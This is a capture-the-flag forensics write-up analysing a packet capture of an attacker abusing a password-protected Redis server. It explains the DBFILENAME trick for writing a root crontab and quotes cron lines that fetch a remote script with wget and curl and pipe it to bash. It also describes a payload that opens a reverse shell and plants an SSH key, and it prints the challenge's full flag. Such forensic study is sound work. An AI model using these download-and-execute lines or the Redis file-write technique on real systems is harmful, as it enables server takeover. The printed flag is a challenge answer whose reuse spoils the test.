# Red Trails

## Scenario

Our SOC team detected a suspicious activity on one of our redis instance. Despite the fact it was password protected it seems that the attacker still obtained access to it. We need to put in place a remediation strategy as soon as possible, to do that it's necessary to gather more informations about the attack used. NOTE: flag is composed by three parts.

## Given artifact

A packet capture file

## Solving process

Initial investigation reveals the appearance of a strange protocol: RESP - REdis Serialization Protocol



**What is RESP?**

RESP is the underlying protocol that Redis uses to communicate between clients and servers (and between servers in a cluster). It operates over raw TCP (usually on port 6379).

The defining characteristic of RESP is that it prioritizes being human-readable and easily parseable over being highly compressed. It is primarily a text-based protocol, meaning you can literally type RESP commands via `telnet` or `netcat` and read the server's responses directly.

**The anatomy of RESP**

I ask LLM for the must-know concepts of this protocol:







Perhaps that's enough to start, as this protocol's payload is human-readable, we will follow the first TCP stream to see:



Note that there is even no brute-force attempt here, a legitimate authentication with correct password, then possibly compromised user runs the DOCS command to ask for the documentation, which will help for local tab-autocomplete in the terminal.



Malicious intention begins here, the attacker reads a database storing all users' hash, and amid them lies the middle part of the flag:



Now, we will see the attacker leverages RESP mechanism to attain his malicious goal:



**The attack mechanism: `REdis` to `cron`**:

By default, Redis saves its in-memory database to a file on the disk (usually dump.rdb). If Redis is running with high enough privileges (often as root), an attacker can tell Redis to save that database file anywhere on the server, and name it anything.

See the `DBFILENAME root` command ? This is part of the attacker configuring Redis to change the name of the database save file to `root`. When Redis saves its data, it will create/overwrite the file `/var/spool/cron/root`. The OS reads this file to know what scheduled tasks the `root` user wants to run.



Next, the attacker sends two SET commands (SET TY1RI8 ... and SET EJHIPI ...). They are just storing strings in the Redis database, but look at the contents:

- `* * * * * wget -O VgLy8V0Zxo ... && bash VgLy8V0Zxo`

- `*/5 * * * * curl -s -k ... && bash VgLy8V0Zxo`

This is standard Linux cron syntax. * * * * * tells the OS, "Run the following command every single minute."

Now that we know it will download that file through HTTP, let's export HTTP objects to investigate it:



Skimming through its content, we can immediately see `eval()` the evil function and the familiar obfuscation technique: string concatenation, let's use OnlineGDB to recover the initial payload, delete the last line, and replace the `$x` declaraion with `echo "$that_chunk"`:



I'm not sure but the script should be broken somewhere, the last commands should be `<that_chunk> | rev | base64 -d | bash`. Take that reverse base64 chunk to cyberchef, we can retrieve the original bash script that will then be executed with `eval()`:



Again, we will make use of OnlineGDB for it `bash` mode:



We can see two commands are being executed: create reverse shell and add a new public key to `~/.ssh/authorized_keys`. In a real-world attack, if an attacker successfully runs this command on a victim machine, they can then log in via SSH at any time using their corresponding private key, completely bypassing passwords.
Note that the first part of the flag is appended to the end of that SSH key.

Now let's follow the next TCP streams. In this stream, we see that another file is being downloaded via HTTPS, then piped to `bash` directly, nothing touches the hard-disk, the output of that command is sent back to the attacker machine, we should find way to get that file so that we can retrieve the encryption mechanism behind that output. However, that domain is inaccessible:



COntinue with the remaining stream, I see that file is being transmitted over TCP here:



Highlight the whole data chunk of that file, copy as hex stream and take it to cyberchef, then we can download that `elf` file.



Grab that file and analyze with `ghidra`, we can see the phantom of AES and hex here:



We should not dive deep into that `elf` file, grab the key, IV and the ciphertext output from the previous stream and head for cyberchef:



Open it in full-screen mode, the final flag fragment is hidden in the output



`Flag: HTB{r3d15_1n574nc35_c0uld_0p3n_n3w_un3xp3c73d_7r41l5!}`